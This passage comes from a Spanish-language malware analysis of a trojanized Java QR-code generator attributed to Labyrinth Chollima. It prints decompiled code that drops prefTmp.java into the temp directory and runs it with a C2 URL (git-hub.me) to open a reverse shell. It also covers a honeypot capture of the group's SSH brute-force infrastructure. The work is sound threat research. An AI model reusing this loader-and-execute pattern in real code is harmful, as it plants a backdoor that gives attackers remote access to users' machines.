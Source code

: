 - Se crearán dos archivos en los directorios temprales: `p.dat` y `prefTmp.java`. En este último se escrbirán los 10 caracteres recibidos en la solicitud anterior.

```java
if (Integer.parseInt(getOperatingSystem()) == 0)
{
    org_path = System.getProperty("java.io.tmpdir") + "\\prefTmp.java";
    sec_path = System.getProperty("java.io.tmpdir") + "\\p.dat";
} else {
    org_path = System.getProperty("java.io.tmpdir") + "/prefTmp.java";
    sec_path = System.getProperty("java.io.tmpdir") + "/p.dat";
}
try (FileWriter file = new FileWriter(org_path, true);BufferedWriter buffer = new BufferedWriter(file)) {
    buffer.write(org_file);
}
```

- Finalmente el malware ejecutará el comando: `$TEMP/prefTmp.java $UID https://www.git-hub.me/view.php` para generar una shell reversa.

```java
String cmdline = "java " + org_path + " " + uid + " " + POST_URL;
Runtime.getRuntime().exec(cmdline);
Thread.sleep(3000);
```

### Detalles de interés

- Habiendo realizado ingeniería inversa sobre la muestra y entendiendo cómo entabla comunicación con su C2, decidí enviar solicitudes de contacto al mismo con mi alias de Telegram para intentar conseguir una breve entrevista con el grupo. Su respuesta fue un ataque de SSH Bruteforce a gran escala contra la dirección IP desde la que había enviado las solicitudes. Siendo que este equipo contaba en realidad con una honeypot, fue posible registrar toda la infraestructura ofensiva que utilizaron en la operación y volcarla en un pulso de inteligencia [[4]](#referencias). Una versión en texto plano puede descargarse [acá](https://github.com/BirminghamCyberArms/QRLOG/blob/main/iocs/labyrinth_chollima_attack_infrastructure.csv).

- El archivo `inputFiles.lst` contiene información de compilación de Maven. A partir del mismo es posible saber que el autor del malware se hace llamar *Edward* y utiliza una plataforma Windows:
```bash
#[...]
[...]/default-compile/inputFiles.lst:275:C:\Users\Edward\Downloads\qr-code-generator-and-reader-master\qr-code-generator-and-reader-master\src\main\java\com\google\zxing\common\detector\MathUtils.java
[...]/default-compile/inputFiles.lst:276:C:\Users\Edward\Downloads\qr-code-generator-and-reader-master\qr-code-generator-and-reader-master\src\main\java\com\client\result\VEventResultParser.java
[...]/default-compile/inputFiles.lst:277:C:\Users\Edward\Downloads\qr-code-generator-and-reader-master\qr-code-generator-and-reader-master\src\main\java\com\google\zxing\oned\Code128Writer.java
#[...]
  ```

- Esta investigación fue aceptada como Charla para la Recon Village de la DEF CON 31 [[5]](#referencias).
